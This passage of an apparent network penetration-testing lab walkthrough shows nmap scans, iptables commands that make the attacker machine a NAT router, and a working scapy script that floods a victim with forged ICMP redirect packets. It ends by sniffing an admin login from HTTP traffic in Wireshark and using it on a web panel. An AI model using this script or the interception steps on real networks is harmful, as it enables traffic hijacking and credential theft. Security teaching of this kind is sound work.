22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
111/tcp open  rpcbind 2-4 (RPC #100000)
MAC Address: 08:00:27:88:1B:CD (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.80 seconds
```

`nmap -sS -sV 10.23.56.100`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-03-01 08:56 EST
Nmap scan report for 10.23.56.100
Host is up (0.00031s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian)) ←
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.79 seconds
```

2. Configure your Machine to Perform IP Masquerading.
Issuing the following commands will let you configure your machine as a router NATting your victim address and hiding it from the router.

`echo 1 > /proc/sys/net/ipv4/ip_forward`.
`iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o eth1 -j MASQUERADE`.

This configuration turns the attacker machine into a pseudo router for the subnet `10.100.13.0/24`. All packets originating from this subnet will be routed through the attacker machine and then forwarded externally using the IP address of the eth1 interface.

3. Create an ICMP Redirect Script.

*ICMP Redirect* is a mechanism typically used by routers to inform nodes within a network about better paths to reach a specific destination. However, an attacker can exploit this mechanism to alter the routing tables of vulnerable hosts, persuading them to route traffic through a path controlled by the attacker.

You can use the following scapy script to mount an ICMP redirect attack.
`scapy`,
```
# Creating and sending ICMP redirect packets
originalRouterIP='10.100.13.1'
attackerIP='10.100.13.20'
victimIP='10.100.13.126'
serverIP='10.23.56.100'
# We create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
# Press <enter>
```

This script continuously sends ICMP Redirect packets to the victim (victimIP), convincing it to route traffic to the server (serverIP) through the attacker's IP address (attackerIP). This can allow the attacker to intercept, manipulate, or collect traffic destined for the server.

4. Intercept the Data with Wireshark.
Intercept the traffic exchanged between the victim machine and the target server and use it to get access to the web administration interface.

`wireshark &`, `!icmp and http.location contains "login_success.php"`, `Follow`, `TCP Stream`:
```
myusername=admin&mypassword=adminadminpasswd
```

5. Access the Administration Panel.
Use the credentials found at the previous step to login into the web administration panel.

`firefox http://10.23.56.100:80 &`.

---
---
